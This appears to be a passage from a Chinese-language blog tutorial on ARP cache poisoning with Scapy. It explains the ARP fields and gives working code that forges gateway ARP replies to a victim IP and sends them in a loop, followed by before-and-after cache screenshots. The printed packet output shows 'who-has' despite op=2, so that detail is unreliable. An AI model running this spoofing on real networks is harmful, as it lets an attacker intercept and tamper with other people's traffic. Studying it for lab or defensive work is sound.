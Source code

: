 构造ARP需要我们注意的有5个参数：

* `op` 取值为1或者2，代表ARP请求或者响应包。

* `hwsrc` 发送方Mac地址。
* `psrc` 发送方IP地址。
* `hwdst` 目标Mac地址。
* `pdst` 目标IP地址。



**ARP欺骗原理:**发送arp包,让**目标机**以为是**网关**发过来的,并且`网关mac`对应的是`攻击机ip`,使目标机以为`攻击机mac`为`网关的mac`

**数据包字段解释：**packet=Ether(src=`攻击机mac`,dst=`目标机mac`)/ARP(hwsrc=`攻击机mac`,hwdst=`目标机mac`,psrc=`网关ip`,pdst=`目标机ip`,op=2) 

```python

>>> mac_self = get_if_hwaddr('eth0')                                 
>>> mac_target = getmacbyip('10.35.71.205')   
>>>packet=Ether(src=mac_self,dst=mac_target)/ARP(hwsrc=mac_self,hwdst=mac_target,psrc='10.35.71.254',pdst='10.35.71.205',op=2)                 
>>> packet.show()                                              
###[ Ethernet ]### 
  dst= a0:8c:fd:1b:cb:90
  src= 00:0c:29:62:44:de
  type= 0x806
###[ ARP ]### 
     hwtype= 0x1
     ptype= 0x800
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 00:0c:29:62:44:de
     psrc= 10.35.71.254
     hwdst= a0:8c:fd:1b:cb:90
     pdst= 10.35.71.205

```



正常的arp缓存表 `arp -a`

![mark](http://cdn.youyouorz.top/blog/img/20190428/56szrmJepPgm.png?imageslim)

发送包

```pyhton
>>> sendp(packet,loop=1)       #sendp 发送二层包             ..............................................................................................................................................
[...]
```

毒化后

![mark](http://cdn.youyouorz.top/blog/img/20190428/dM0coMgqbSwj.png?imageslim)

